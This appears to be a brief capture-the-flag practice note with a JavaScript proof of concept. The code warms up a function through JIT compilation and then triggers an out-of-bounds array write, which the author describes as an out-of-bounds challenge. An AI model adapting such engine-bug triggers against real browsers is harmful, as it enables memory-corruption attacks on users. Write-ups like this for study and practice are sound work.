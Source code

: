# Practice After Game with Poc

```javascript=
blah = new Array()
blah.push(new Array(1.1,1.1))
blah.push(new Uint32Array(0x10))

function trigger(a1,a2){
  blah[0][a1]=1.337;
  for (let i=0; i<100000; i++){}
}

for(var i=0;i<100;i++) trigger(0)
trigger(2)
blah[1]
```

After Poc, it is an oob challenge.
